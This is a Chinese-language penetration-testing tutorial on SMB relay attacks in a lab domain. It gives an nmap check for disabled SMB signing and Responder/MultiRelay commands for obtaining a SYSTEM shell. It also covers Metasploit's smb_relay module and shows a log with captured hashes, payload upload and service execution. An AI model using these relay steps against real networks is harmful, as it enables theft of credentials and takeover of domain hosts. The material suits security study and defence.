 ##### 利用条件

目标SMB签名需要关闭，在SMB连接中需要使用安全机制来保护服务器和客户端之间传输数据的完整性，而这种安全机制就是SMB签名和加密，如果关闭SMB签名，会允许攻击者拦截认证过程并且将获得hash在其他机器上进行重放，从而获得域管权限，目前SMB常用来做为SMB文件共享、打印机，如果签名关闭可能导致文件共享、打印机被入侵，我们可以使用nmap来确定是否关闭：

```
nmap -n -p445 192.168.188.3 --script=smb-security-mode
```

##### 利用方法

###### Responder

Step 1：进入到/usr/share/responder目录下，编辑Responder.conf文件，设置smb和http为Off，在攻击时直接利用该hash攻击其他机器即可不需要抓取

Step 2：在kali(192.168.188.129)上使用Responder开启监听(这里responder的作用就是当访问一个不存在的共享路径，将名称解析降到LLMNR/NBNS时来抓取网络中所有的LLMNR和NetBIOS请求并进行响应)

```
responder -I eth0 -w -r -f
```

Step 3：使用Responder的MultiRelay模块，指向域内的一台普通主机

```
python MultiRelay.py -t 192.168.188.3 -u ALL
```

Step 5：在域控server 2012上建立文件共享请求，kali即可接收到192.168.188.3的sytem shell(实战中可以通过钓鱼发起请求)

Step 6：之后成功接收到目标主机的Shell(注意在执行命令时需要用双引号包裹，在这里坑了好久，气死了都)

###### Metasploit

这里使用MSF框架中的smb_relay模块来实施SMB中继攻击<br/> Step 1：设置载荷

Step 2：执行载荷

Step 3：在window 7中上执行以下命令来访问恶意SMB服务

```
net use \\192.168.188.129\c$
```

Step 4：由于Metasploit的SMBRelay只支持NTLM v1，所以在攻击一些机器时会出现"Failed to authenticate"的情况，但是这种思路是正确的，所以综合来看这种攻击方法在实战中也不是那么被看好

下面是一个Windows Server 2003中成功的示例：

```
msf exploit(windows/smb/smb_relay) &gt; 
[*] Received 192.168.188.128:1032 X-90E984B4C76D4\Administrator LMHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 NTHASH:77c5c86213cb376f72448eba4af2c32102bb5a6f121f4cc5 OS:Windows Server 2003 R2 3790 Service Pack 2 LM:
[*] Authenticating to 192.168.188.128 as X-90E984B4C76D4\Administrator...
[*] AUTHENTICATED as X-90E984B4C76D4\Administrator...
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \hGaRjHmf.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Sending stage (179779 bytes) to 192.168.188.128
[*] Closing service handle...
[*] Deleting \hGaRjHmf.exe...
```
